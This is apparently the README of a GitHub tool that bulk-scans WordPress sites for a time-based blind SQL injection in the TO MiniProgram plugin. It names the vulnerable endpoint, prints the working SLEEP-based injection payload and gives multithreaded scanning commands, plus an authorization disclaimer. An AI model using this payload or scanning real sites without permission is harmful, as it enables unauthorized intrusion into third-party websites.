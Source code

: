# TO MiniProgram SQLi Scanner
(https://imgur.com/a/O2JAO7D)

A specialized SQL injection scanner targeting WordPress sites with the TO MiniProgram plugin vulnerable endpoint.

## Features

- 🚀 **High-performance scanning** with multi-threading support
- 🎯 **Accurate detection** of time-based blind SQL injection vulnerabilities
- 📋 **Multiple target support** (single URL or file with URL list)
- 📊 **Clear reporting** with color-coded results
- 💾 **Automatic saving** of vulnerable targets to `vulnerable.txt`

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/HackfutSec/SQLwp.git
   cd SQLwp
   ```

2. Install required dependencies:
   ```bash
   pip3 install -r requirements.txt
   ```

## Usage

### Basic scan (single target)
```bash
python3 scanner.py -u http://target-site.com -d 5
```

### Bulk scan (from file)
```bash
python3 scanner.py -l targets.txt -t 10 -d 5
```

### Options
| Option | Description | Default |
|--------|-------------|---------|
| `-u`, `--url` | Single target URL | - |
| `-l`, `--list` | File containing list of target URLs | - |
| `-d`, `--delay` | Sleep time for time-based detection (in seconds) | 5 |
| `-t`, `--threads` | Number of concurrent threads | 5 |

## Technical Details

### Vulnerability Tested
The scanner checks for SQL injection in the TO MiniProgram WordPress plugin's endpoint:
```
/wp-json/watch-life-net/v1/comment/getcomments
```

### Payload Used
The scanner sends a time-based blind SQL injection payload:
```sql
DESC,(SELECT(1)FROM(SELECT(SLEEP(5)))a)--
```

### Detection Logic
- The scanner measures response time
- If response time exceeds the specified delay, vulnerability is confirmed

## Output Example

![Sample Output](https://imgur.com/a/O2JAO7D) 

## Ethical Use

⚠️ **This tool is for authorized security testing only.**  
⚠️ **Always obtain proper authorization before scanning any website.**  
⚠️ **The maintainers are not responsible for misuse of this tool.**

## Contribution

Contributions are welcome! Please open an issue or pull request for:
- Bug fixes
- Feature enhancements
- Documentation improvements

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Contact

- GitHub: [@HackfutSec](https://github.com/HackfutSec)
- For security concerns: *HackfutSec404@proton.com*

---

🔒 **Happy (ethical) hacking!** 🔒
